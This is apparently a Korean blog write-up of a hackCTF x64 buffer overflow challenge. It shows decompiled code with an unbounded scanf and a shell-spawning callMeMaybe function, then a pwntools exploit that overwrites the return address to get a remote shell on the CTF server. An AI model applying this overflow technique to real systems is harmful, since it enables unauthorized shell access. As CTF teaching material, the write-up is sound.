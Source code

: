 ```yaml
---
layout: post
title:  "[hackCTF]x64 Buffer Overflow"
date:   2020-02-18
---
```


hackCTF pwnable 다섯번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)


## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-110h]
  int v5; // [rsp+11Ch] [rbp-4h]

  _isoc99_scanf("%s", &s, envp); // stdin에서 문자열 형식으로 입력 받아 s에 저장
  v5 = strlen(&s); // s의 길이를 v5에 저장
  printf("Hello %s\n", &s, argv);
  return 0;
}
```
## ida - callMeMaybe
```c
int callMeMaybe()
{
  char* path; // [rsp+0h] [rbp-20h]
  const char* v2; // [rsp+8h] [rbp-18h]
  __int64 v3; // [rsp+10h] [rbp-10h]

  path = "/bin/bash";
  v2 = "-p";
  v3 = 0LL;
  return execve("/bin/bash", &path, 0LL); // 쉘을 띄울 수 있다!
}
```
<br>

정리해보자.<br><br>
<hr>

| ret |           |
|:---:|:---------:|
| sfp |  (8byte)  |
| rbp |           |
| ... |           |
|  s  | rbp-0x110 |

***
<br>
callMeMaybe 함수를 실행시키면 쉘을 띄울 수 있다. 이전 문제와 동일한 방식으로 scanf를 통해 문제를 해결하자.<br><br>
목표 : ret을 callMeMaybe 함수의 주소로 덮기<br>
취약점 : scanf("%s", &s, envp)<br><br><br>
+) callMeMaybe 함수의 주소는 다음과 같다.

![0501](https://drive.google.com/uc?id=1LnLNJrmt7KXM1S5HHWFkw0vQywbEDzOd)

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3004)

payload = "\x90"*0x118+p64(0x400606)

p.sendline(payload)

p.interactive()
```

## 결과
![0502](https://drive.google.com/uc?id=1rK_l0M2NmPspC1udiy0B72-BrBogAAN8)
